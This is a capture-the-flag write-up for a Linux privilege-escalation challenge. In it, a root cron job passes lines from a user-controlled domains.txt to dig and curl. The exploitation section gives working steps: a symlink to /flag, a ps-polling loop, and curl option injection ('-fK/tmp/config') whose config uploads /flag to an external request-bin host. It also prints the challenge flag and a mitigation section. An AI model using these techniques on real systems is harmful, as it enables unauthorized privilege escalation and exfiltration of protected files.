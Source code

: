 ```yaml
---
title: Hoster
author: Adrian Junge
description: You gained access to a Linux server. Can you also gain privileges?
categories:
    - PrivEsc
year: 2024
---
```


# TL;DR
    **- Challenge Setup:** SSH access as low privileged user - `/flag` is only accessible as root
    **- Key Discoveries:** Identifying root cron job via **PSPY** running `dig` and `curl` commands
    **- Vulnerability:** Cron job relying on `/config/domains.txt` is accessible by low privileged user
    **- Exploitation Variant 1:** Creating symlink `/config/domains.txt` to `/flag`
    **- Exploitation Variant 2:** Command option injection using `-K/tmp/config` to upload the flag by the used `curl`

# 1. Introduction<a name="introduction"></a>
The description of this challenge already reveals what kind of ctf type this is gonna be about:

```
You gained access to a Linux server. Can you also gain privileges?
```

# 2. Reconnaissance<a name="reconnaissance"></a>
As you can already read in the challenge description, this challenge is all about privilege escalation on a Linux server. This means you start as a low-privilege user and have to elevate your privileges to root. All you get is SSH access to the challenge machine. You just start as a low-privileged ctf user. Looking around you find the following information: The flag is in the root directory in the `/flag` file which only the root user has read and write access to. So somehow you have to get root to read the flag file and give the content to us. In your home directory in `/config` is a file `domains.txt` but you don’t have enough permissions to read or edit the file. By having a look at the running processes you can see that the cron daemon is running:

![psauxw](ctf/writeups/cscg/hoster/psauxw.png "psauxw")

But nothing is going on in `/etc/crontab` where usually cronjobs are written. So there might be a hidden cronjob running under root. So how can you find out what the cronjob is doing? There is a beautiful tool named **PSPY** snooping all running processes without needing any root permissions. So you can see which commands are being run by other users and cron jobs. Downloading the script from [PSYP](https://github.com/DominicBreuker/pspy) and running it reveals the root cron job:

![pspy](ctf/writeups/cscg/hoster/pspy.png "pspy")

It seems like the cron job is simply running the `request_certificates.sh` script. All this script does is to iterate over each line of your `domains.txt` checking for a valid certificate and then executing the curl command:

```bash
#!/bin/bash

for file in /var/www/*; do
    echo "$file"
    if [ -f $file/config/domains.txt ]
    then
        while IFS="" read -r p || [ -n "$p" ]
        do
            if ( dig "$p" | grep -q 'NXDOMAIN' ) || ( dig "$p" 2>&1 | grep -q 'Invalid' ) || ( dig "$p" | grep -q 'SERVFAIL' )
            then
                echo "[-] Error resolving the domain"
            else
                curl -I "$p"
                # certbot -d "$p"
            fi
        done < $file/config/domains.txt
    else
        echo "[-] Not a file"
    fi
fi
```

So having a look again at the output of **PSPY** the `domains.txt` must contain a line *cscg.de* which is part of the arguments for the curl command.


# 3. Vulnerability Description<a name="vulnerability description"></a>
My initial thoughts were some kind of bash command injection via the *$file* in the first if statement. But sadly you can’t create or edit any directories in `/var/www/` so this won’t work. After playing around for some time I figured out that you can just remove the whole `/config` directory with `rm -rf /config` because you have full permissions over your home directory. So you can just create a new directory `/config` and add your version of the `domains.txt`. Now you have full control over the `domains.txt` and so full control over what is being executed as a command parameter for `dig` and `curl` in the `request_certificates.sh` script.


# 4. Exploitation<a name="exploitation"></a>
## 4.1. Exploitation Variant 1<a name="exploitation variant 1"></a>
My approach was exploiting the script via a symlink with `ln -s  /flag config/domains.txt` pointing to `/flag` so the script would read the content of your flag file and give it as a parameter to the dig command. By running **PSPY** you will just see the dig command being executed with the flag as the parameter. Of course, there are other possible solutions to reveal the flag by `for (( ; ; )); do ps aux >> log; done` effectively spamming `ps aux` and searching for the flag prefix or writing some small script doing this for you:

```bash
search_string="CSCG"
while true; do
    ps_output=$(ps aux)
    if [[ "$ps_output" == *"$search_string"* ]]; then
            echo $ps_output
            break;
    fi
done
```

## 4.2. Exploitation Variant 2<a name="exploitation variant 2"></a>
The intended solution was about command option injection. The problem was to find a parameter fitting both the dig and the `curl` commands and eventually upload the content of `/flag` to your server. With the -K option for `curl` you can define a path of a config file being used by `curl`. But there is a little problem with this parameter. The `dig` command doesn’t have an option -K so the if statement around `dig` in the script will fail. You need another option that won’t result in an output of dig containing *NXDOMAIN*, *Invalid* and *SERVFAIL*. Additionally, this option has to be a valid option for the `curl` command. There were multiple options like the `-f` argument which is the option for a silent fail in `curl` and the option to define a file path for `dig` to interact with. By defining a config file for curl with content like

```bash
echo "-fK/tmp/config" > config/domains.txt
cat <<EOF > /tmp/config
url = https://...pipedream.net
upload-file = /flag
EOF
```

the cronjob will eventually upload the file to your server

![flag-requestbin](ctf/writeups/cscg/hoster/flag_requestbin.png "flag-requestbin")


# 5. Mitigation<a name="mitigation"></a>
At first, you shouldn’t use root cron jobs if not necessary. In this case, a cron job executed by a low-privilege user would have done the job as well by giving the user reading permissions to the `domains.txt` or making it readable for only this user. Another problem was the access the low-privilege ctf user had to the directory where the `domains.txt` was placed. When using a root cron job which interacts with some files always make sure that the files and the parent directories are only accessible by root. If you have to place the file in a directory controlled by another user make the file immutable. It will stay there even when the user tries to modify the directory.

# 6. Flag<a name="flag"></a>
CSCG{1nject1ng\_0pti0ns\_1nste4d\_of\_c0mm4nds}


# 7. References<a name="references"></a>
- [PSPY](https://github.com/DominicBreuker/pspy)
